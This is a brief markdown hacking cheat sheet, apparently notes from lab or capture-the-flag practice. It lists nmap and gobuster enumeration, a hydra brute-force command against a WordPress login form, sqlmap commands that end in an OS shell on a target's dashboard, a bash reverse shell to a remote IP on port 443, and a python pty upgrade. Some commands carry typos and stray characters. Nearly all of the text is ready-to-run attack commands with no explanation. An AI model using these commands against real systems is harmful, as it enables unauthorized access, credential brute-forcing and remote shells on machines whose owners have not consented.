 ##We are going to do basic of Hacking

#Enumeration
1. nmap -Sc -sV <`ip address>
2. nmap -sT <'ip address>
3. nmap -sP <'ip address>

#Enumeration
1. gobuster dir -u <`ip address> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#BruteForcing

1. hydra -L fsocity.txt -p mypassword 192.168.10.100 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"

Sqlmap
1. sqlmap -u 'http://10.129.233.138/dashboard.php?search=any+query' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l"
2. sqlmap -u 'http://10.129.233.138/dashboard.php?search=any+query' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l" --os-shell


reverse shell
1. bash -c "bash -i >& /dev/tcp/10.10.14.161/443 0>&1"
pty enable
1. python3 -c 'import pty; pty.spawn("/bin/bash")'